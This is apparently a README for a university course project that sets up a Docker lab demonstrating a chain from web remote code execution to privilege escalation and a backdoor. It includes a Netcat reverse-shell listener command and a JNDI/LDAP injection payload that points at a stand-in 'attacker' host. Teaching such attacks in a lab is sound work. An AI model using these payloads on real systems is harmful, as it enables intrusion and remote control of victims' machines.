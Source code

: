 # A Practical Demonstration of an Exploitation Chain: From Remote Code Execution to Full System Compromise

## Project Overview

This project is developed as part of the **Cybersecurity** course at the **University of Messina**.  
It presents a practical demonstration of an exploitation chain involving:

- **Remote Code Execution (RCE)** via a vulnerable web application
- **Privilege Escalation** through kernel-level exploitation
- **Installation of a persistent backdoor** for post-exploitation access

## Requirements

- **Linux Kernel 5.8.x**  
  (Tested with `5.13.0-19`, default in Ubuntu 21.04)
  You can use `uname -r` to check your kernel version
- **Docker** and **Docker Compose**

---

##  Quick Start

### 1. Clone the Repository
```bash
git clone https://github.com/marco-giacobbe/rce-to-system-compromise.git
cd rce-to-system-compromise
```
### 2. Build and Start the Environment
```bash
docker-compose up --build
```
This will build all containers (attacker, backend, and database) and start the application

### 3. Access the Target Web
Through your browser visit:
```
http://localhost:8080/
```

### 4. Set Up the Attacker Listener
In a new terminal, open a shell inside the attacker container
```bash
docker exec -it attacker bash
```
Start a Netcat listener to wait for the reverse shell:
```bash
nc -lp 6666
```

This listen for the reverse shell triggered by the exploit.

### 5. Perform the attack via Web Interface
For example:
  - Submit the payload `${jndi:ldap://attacker:1389/Exploit}` through the vulnerable form on the frontend site.
  - Request the page `http://localhost:8080/${jndi:ldap://attacker:1389/Exploit}`
  - You can also build your own payload.

